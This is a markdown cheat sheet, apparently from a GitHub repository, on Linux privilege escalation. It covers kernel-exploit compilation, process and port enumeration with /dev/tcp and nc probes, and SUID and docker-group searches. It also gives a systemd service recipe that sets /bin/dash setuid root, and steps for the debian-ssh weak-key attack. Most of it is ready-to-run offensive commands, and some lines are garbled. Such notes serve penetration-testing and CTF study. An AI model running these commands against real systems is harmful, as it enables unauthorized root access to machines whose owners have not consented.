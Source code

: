 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

Compile for x86 on a x64 machine

```bash
sudo apt update && sudo apt install -y gcc-multilib 
gcc -Wl,--hash-style=both -m32 <exploit.c>
```

Cross-Compile for Windows from Linux

```bash
sudo apt update && sudo apt install -y mingw-w64
i686-w64-mingw32-gcc <exploit.c>
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Docker**

```bash
# we look for docker.sock
find / -group docker -exec ls -la {} 2>/dev/null \;
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Debian-ssh**

- [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)

```bash
git clone https://github.com/g0tmi1k/debian-ssh.git
de debian-ssh/our_tools/
tar xvjf ubunturoot.tar.bz2

cp dokeygen.sh 
chroot ubunturoot /dokeygen.sh 1 -t dsa -b 1024 -f /tmp/dsa_1024_1

ssh-keygen -l -E md5 -f ~/.ssh/id_rsa.

#add "PubkeyAcceptedKeyTypes +ssh-dss" into client ssh conf
#ssh -vvvvvvvvvvvvvvvvvvvvv helps to understand !
```


